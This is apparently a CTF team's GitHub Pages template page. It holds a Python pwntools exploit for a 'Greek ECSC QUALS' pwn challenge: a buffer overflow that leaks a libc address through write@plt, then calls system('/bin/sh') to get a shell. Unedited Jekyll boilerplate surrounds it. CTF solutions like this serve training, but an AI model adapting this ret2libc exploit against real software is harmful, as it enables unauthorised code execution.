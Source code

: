 ## Welcome to Fuzzer's Palace

You can use the [editor on GitHub](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Greek ECSC QUALS-Pwn Challenge
```python
from pwn import *
from struct import pack, unpack


def pwn():
    p = lambda x : pack("I",x)
    r = process('./bombsaway')
    print r.recv()
    r.sendline('test')
    print r.recv()
    r.sendline('2')
    print r.recv()
    payload = 'A'*556
    payload += p32(0x080483b0) # plt of write
    payload += p32(0x08048400) # ret
    payload += p32(0x1)
    payload += p32(0x080f700c) # read in got
    payload += p32(0x4) #leak

    r.sendline(payload)
    rec = r.recvuntil('Password:')
    print rec
    i = 40
    rec = rec[i:i+4]
    read_libc = unpack('I', rec)[0]
    print '[+] Libc addr of read: '+hex(read_libc)
    libc_base = read_libc-0x0e5620
    print '[+] Libc base: '+hex(libc_base)
    sys = p(libc_base+0x03cd10)
    lol = p(libc_base+0x123456)
    binsh = p(libc_base+0x17b8cf)
    r.sendline('test')
    r.recvuntil('Option:')
    r.sendline('2')
    r.recvuntil(':')
    fpayload = 'A'*544
    fpayload += sys
    fpayload += lol
    fpayload += binsh
    r.sendline(fpayload)
    r.interactive()

pwn()
```

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 
